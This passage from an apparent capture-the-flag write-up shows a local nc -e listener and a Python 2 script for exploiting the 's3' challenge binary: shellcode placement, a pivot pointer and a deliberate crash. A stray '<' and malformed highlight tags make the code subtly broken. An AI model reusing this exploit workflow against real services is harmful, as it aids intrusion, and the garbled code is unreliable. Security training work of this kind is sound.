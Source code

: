I got tired of copying and pasting the string identifiers so I switched over to python. In order to emulate the server, I put the binary behind a nc listener:

{% highlight bash)
$ while [[ 1 ]]; do nc -e ./s3 -v -l -p 5333; done
{% endhighlight)

Notice that I'm using ```s3``` again, as this will automagically restart without the need for a clean shutdown (in case the script needs debugging). I enabled coredumps with ```ulimit -c unlimited``` and started scripting and debugging, a lot.

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())<
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 CTF!\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] first location = 0x{0:08x}'.format(p_shellcode)

# send second string. this will be our 'pivot' pointer.
# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' AAAA\n')

data = s.recv(64)
p_pivot = getID(data)

print '[+] second location = 0x{0:08x}'.format(p_pivot)

# send read request to crash binary

s.send('r ' + str(p_pivot) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')
